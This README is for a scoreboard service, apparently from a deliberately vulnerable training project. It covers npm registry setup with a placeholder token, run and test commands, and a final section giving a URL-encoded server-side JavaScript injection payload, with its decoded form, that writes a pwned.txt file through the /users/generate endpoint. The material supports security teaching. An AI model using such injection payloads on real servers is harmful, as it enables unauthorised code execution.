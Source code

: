 [![codecov-badge]][codecov]

# Mad Scoreboard Service

## Description

This is a service that generates a list of users with a score. The score is generated randomly and the list is sorted by
the score. The list is returned as a JSON object.

## Installation

### Consuming npm packages from GitHub's NPM registry

This project uses a package from the @MAD-Goat-Project organization's GitHub Package Registry.

To consume npm packages from GitHub's NPM registry follow these steps:

- Create a personal access token with the read:packages scope.
- Create or edit an existing ~/.npmrc file to include the following line, replacing TOKEN with your personal access
  token:
    - //npm.pkg.github.com/:_authToken=TOKEN
- If needed, install the package using the standard yarn add command:
    - yarn add @OWNER/PACKAGE_NAME

An example of a .npmrc file that grants access to the @octokit npm organization:

```bash
@:registry=https://npm.pkg.github.com"
@MAD-Goat-Project:registry=https://npm.pkg.github.com
//npm.pkg.github.com/:_authToken=AUTH_TOKEN
```

Be careful while writing the organization name.

NPM is not case-sensitive, so it doesn't matter if you write @MAD-Goat-Project or @mad-goat-project.

But yarn is case-sensitive, so you have to write @MAD-Goat-Project.

### Installing dependencies

```bash
$ yarn
```

## Running the app

```bash
# development
$ yarn run start

# watch mode
$ yarn run start:dev

# production mode
$ yarn run start:prod
```

## Test

```bash
# unit tests
$ yarn run test

# e2e tests
$ yarn run test:e2e

# test coverage
$ yarn run test:cov
```

## Example of a malicious payload

GET : {{BaseURL}}:{{Port}}/users/generate/:factor
where factor is:

 ```bash
var%20fs%3Drequire%28%22fs%22%29%2Cstream%3Dfs.createWriteStream%28%22pwned.txt%22%2C%7Bflags%3A%22w%22%7D%29%3Bconst%20megabyte%3D%221000000%22%2CoutputStr%3D%22yougotpwned%22%3Bfor%28var%20i%3D0%3Bi%3Cmegabyte%2FoutputStr.length%3Bi%2B%2B%29%20%7Bstream.write%28%22yougotpwned%22%29%3B%7Dstream.end%28%29%3B
 ```

This malicious payload will create a file named pwned.txt in the root directory of the server.
Corresponds to this JavaScript code:

```bash
var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();
```

[codecov]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service

[codecov-badge]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service/graph/badge.svg?token=2AVIP9VNY4

